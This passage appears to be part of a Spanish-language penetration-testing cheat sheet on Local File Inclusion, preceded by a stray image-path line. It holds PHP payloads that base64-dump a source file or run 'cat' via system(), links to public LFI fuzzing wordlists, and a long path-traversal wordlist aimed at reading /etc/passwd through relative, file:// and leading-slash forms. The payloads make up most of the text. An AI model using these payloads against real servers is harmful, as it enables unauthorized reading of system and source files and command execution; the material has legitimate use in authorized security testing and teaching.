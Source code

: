 ```bash
Encoding is required while reading .php source: 

<?php echo base64_encode(file_get_contents("solution.php"));?> 

OR just use 

<?php system('cat x.php');?>
```

## DICCIONARIO LFI

Puedes hacer fuzzing de archivos interesantes una vez validado que tienes un LFI:

- [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt)
- [https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

puedes validar tu LFI con este diccionario:

```bash
/etc/passwd
../etc/passwd
../../etc/passwd
../../../etc/passwd
../../../../etc/passwd
../../../../../etc/passwd
../../../../../../etc/passwd
../../../../../../../etc/passwd
../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd
../../../../../../../../../../etc/passwd
../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../../../../etc/passwd
file:///etc/passwd
file://../etc/passwd
file://../../etc/passwd
file://../../../etc/passwd
file://../../../../etc/passwd
file://../../../../../etc/passwd
file://../../../../../../etc/passwd
file://../../../../../../../etc/passwd
file://../../../../../../../../etc/passwd
file://../../../../../../../../../etc/passwd
file://../../../../../../../../../../etc/passwd
file://../../../../../../../../../../../etc/passwd
file://../../../../../../../../../../../../etc/passwd
file://../../../../../../../../../../../../../etc/passwd
file://../../../../../../../../../../../../../../etc/passwd
file://../../../../../../../../../../../../../../../etc/passwd
/../etc/passwd
/../../etc/passwd
/../../../etc/passwd
/../../../../etc/passwd
/../../../../../etc/passwd
/../../../../../../etc/passwd
/../../../../../../../etc/passwd
/../../../../../../../../etc/passwd
/../../../../../../../../../etc/passwd
/../../../../../../../../../../etc/passwd
```